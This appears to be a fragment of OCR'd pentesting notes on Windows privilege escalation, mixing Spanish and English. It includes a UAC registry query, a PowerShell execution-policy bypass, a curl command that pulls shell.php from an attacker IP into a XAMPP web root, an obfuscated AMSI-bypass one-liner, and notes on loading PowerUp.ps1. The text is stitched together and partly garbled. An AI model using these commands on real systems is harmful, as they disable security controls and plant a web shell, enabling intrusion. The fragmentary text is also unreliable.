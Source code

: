 



# Consultamos si UAC está habilitado. Los ajustes están al nivel5(predeterminado). Le pedirá al administrador que confirme que debe ejecutar binarios que no sean de Windows con privilegios altos.

REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v ConsentPromptBehaviorAdmin






C:\Users\hugo\Desktop>REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v ConsentPromptBehaviorAdmin
REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v ConsentPromptBehaviorAdmin

HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System
    ConsentPromptBehaviorAdmin    REG_DWORD    0x5


C:\Users\hugo\Desktop>



https://rootrecipe.medium.com/advanced-powerup-ps1-usage-ad0f6d713a9f


powershell -ep bypass

curl -u http://10.8.163.249:8000/shell.php -o C:\xampp\htdocs\shell.php 




PS C:\> powershell -ep bypass

So now that we have bypassed PowerShell’s execution policy, we need to disable AMSI. Below is a good bypass for AMSI that hasn’t been patched by Microsoft yet. Type this into the PowerShell console to bypass AMSI. There are several others out there, but this is my go-to:

sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ) )."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),( "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )

Running PowerUp.ps1

Now comes the fun part. We have disabled different protections so now we should be able to run our script with no problems. Before we can just run the program, we need to import the program into the current session. We do this by running one of the following commands:

PS C:\> Import-Module PowerUp.ps1PS C:\> . .\PowerUp.ps1





AMSI Bypass Methods
